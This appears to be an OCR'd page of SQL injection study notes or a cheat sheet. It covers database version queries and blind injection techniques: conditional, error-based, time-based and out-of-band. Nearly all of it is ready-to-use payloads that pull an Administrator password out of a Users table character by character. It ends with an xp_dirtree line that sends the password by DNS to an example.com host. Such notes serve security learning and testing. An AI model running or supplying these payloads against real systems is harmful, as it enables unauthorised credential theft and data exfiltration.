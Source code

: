 | Database type | Query |
|--- |--- |
| Microsoft, MySQL | SELECT @@version |
| Oracle | SELECT * FROM v$version |
| PostgreSQL | SELECT version() |

### Blind test

#### Condition response

Check with codition payload like `xyz' AND '1'='1 (true)` or `xyz' AND '1'='2 (false)`

Guess the information with return code while brute force:

```sql
    xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'a
```

#### Error-based

Using this similar payload with the second input, it evaluates to 1/0, which causes a divide-by-zero error.:

```sql
    xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a (false)
    xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a (true)
```

Retrieving data in the way already described, by systematically testing one character at a time:

```sql
    xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

#### Time-based

Trigger time delay when the query is true or false

```sql
    '; IF (1=2) WAITFOR DELAY '0:0:10'-- (false)
    '; IF (1=1) WAITFOR DELAY '0:0:10'-- (true)
```

Then using technique same above to brute force

```sql
    '; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

#### Out-of-band

Triggering out-of-band network interactions to an own system, typically the most effective is **DNS (domain name service)**

```sql
    '; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.example.com/a"')--
```
